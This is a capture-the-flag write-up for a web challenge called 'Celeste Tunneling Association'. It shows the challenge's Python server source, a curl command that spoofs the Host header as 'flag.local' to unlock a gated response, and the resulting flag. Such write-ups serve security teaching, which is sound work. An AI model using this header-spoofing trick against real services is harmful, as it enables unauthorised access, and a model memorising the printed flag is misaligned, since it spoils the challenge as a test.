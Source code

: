 # Celeste Tunneling Association

[Welcome to the tunnels!!](https://pioneer.tailec718.ts.net/) Have fun!

[Here's the source](https://files.actf.co/5b5169bad21a7256564e8d49103f2b97bb2d2db7cdf3446fe6c9e11f9500922e/server.py)

Author: paper

## Solution

There is nothing worth noting on the website link as its only composed of a plain text.

![index.png](asset/index.png)

If we however interest ourself to the source file

```python
# run via `uvicorn app:app --port 6000`
import os

SECRET_SITE = b"flag.local"
FLAG = os.environ['FLAG']

async def app(scope, receive, send):
    assert scope['type'] == 'http'

    headers = scope['headers']

    await send({
        'type': 'http.response.start',
        'status': 200,
        'headers': [
            [b'content-type', b'text/plain'],
        ],
    })

    # IDK malformed requests or something
    num_hosts = 0
    for name, value in headers:
        if name == b"host":
            num_hosts += 1

    if num_hosts == 1:
        for name, value in headers:
            if name == b"host" and value == SECRET_SITE:
                await send({
                    'type': 'http.response.body',
                    'body': FLAG.encode(),
                })
                return

    await send({
        'type': 'http.response.body',
        'body': b'Welcome to the _tunnel_. Watch your step!!',
    })
```

We can see that the server check if there is anything is the headers and add 1 if the host value is present.
So all we need to do is add the value "flag.local" as the host value (writen at the top of the file under the variable SECRET_SITE).

```bash
curl --header "host: flag.local" https://pioneer.tailec718.ts.net/
actf{reaching_the_core__chapter_8}
```

## Flag 
actf{reaching_the_core__chapter_8}